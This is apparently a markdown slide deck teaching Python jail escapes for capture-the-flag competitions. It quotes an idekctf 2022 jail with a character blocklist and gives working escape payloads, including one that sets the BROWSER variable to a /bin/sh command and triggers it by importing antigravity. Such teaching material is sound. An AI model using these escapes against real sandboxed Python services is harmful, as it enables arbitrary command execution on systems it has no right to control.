

# misc

---

## (py)jails

- dropped in a _restricted_ "environment" (e.g. python repl)
- goal is to "escape" and
  - obtain a shell,
  - or read a flag file,
  - or …

e.g. `eval` with some characters/strings removed

---

<!-- https://github.com/idekctf/idekctf2022/blob/main/misc/pyjail/challenge/jail.py -->

pyjail example

```py
#!/usr/bin/env python3

blocklist = ['.', '\\', '[', ']', '{', '}',':']
DISABLE_FUNCTIONS = ["getattr", "eval", "exec", "breakpoint", "lambda", "help"]
DISABLE_FUNCTIONS = {func: None for func in DISABLE_FUNCTIONS}

print('welcome!')

while True:
    cmd = input('>>> ')
    if any([b in cmd for b in blocklist]):
        print('bad!')
    else:
        try:
            print(eval(cmd, DISABLE_FUNCTIONS))
        except Exception as e:
            print(e)
```

---

- `vars`, `locals`, `globals`
- `dir`
- `__import__`
- [builtins](https://docs.python.org/3/library/functions.html)
- `chr`
- string concatenation tricks
- unicode fun
- `getattr`, `setattr`
- `().__class__.__base__.__subclasses__()`
- `import antigravity`

---

<!-- idekctf 2022* pyjail -->

```py
blocklist = ['.', '\\', '[', ']', '{', '}',':']
```

```py
setattr(__import__('__main__'), 'blocklist', '')
```

---



---

<!-- idekctf 2022* pyjail revenge -->
```py

__import__('antigravity',setattr(__import__('os'),'environ',dict(BROWSER='/bin/sh -c "/readflag giveflag" #%s')))
```
